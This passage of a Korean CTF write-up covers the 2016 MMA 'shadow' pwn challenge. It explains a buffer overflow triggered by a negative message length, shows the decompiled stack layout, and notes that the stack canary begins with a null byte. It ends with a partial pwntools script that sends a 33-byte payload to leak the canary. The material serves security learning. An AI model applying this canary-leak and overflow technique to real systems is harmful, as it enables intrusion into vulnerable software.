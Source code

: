 임마가 중요한 함수인데 주석에 적어놨듯이 `Message length`에서 취약점이 발생합니다.

그리고 `getnline`함수에서는 `read`함수를 사용해 입력받습니다.

- - -
# 0x01. 취약점 증명

```asm
  unsigned int v3; // eax
  int i; // [esp+24h] [ebp-34h]
  char v6[32]; // [esp+2Ch] [ebp-2Ch]
  unsigned int canary; // [esp+4Ch] [ebp-Ch]
  int savedregs; // [esp+58h] [ebp+0h]
```

우선 `v6`부터 값이 들어가니까 32개 꽉 채우면 `canary`를 가져올 수 있지 않을까 했어요.

{: refdef: style="text-align: center;"}
![no_canary](/img/2016_mma/shadow/06.png)
{: refdef}

### NOPE

읭 `gdb`로 열어서 왜 안보여주는지 알아봅시다.

{: refdef: style="text-align: center;"}
![null_canary](/img/2016_mma/shadow/07.png)
{: refdef}

원래 그런지는 모르겠는데 이 문제에선 `canary` 제일 앞에 `\x00`이 있더라구요.

```python
from pwn import *
context.log_level = "debug"

HOST = "localhost"
PORT = 4444
s = remote(HOST, PORT)
pause()

############################################

def send(name, length, message):
    s.recv()
    s.send(name)
    s.recv()
    s.sendline(length)
    s.recv()
    s.send(message)

payload = "A"*33

send("n", "-1", payload)
```
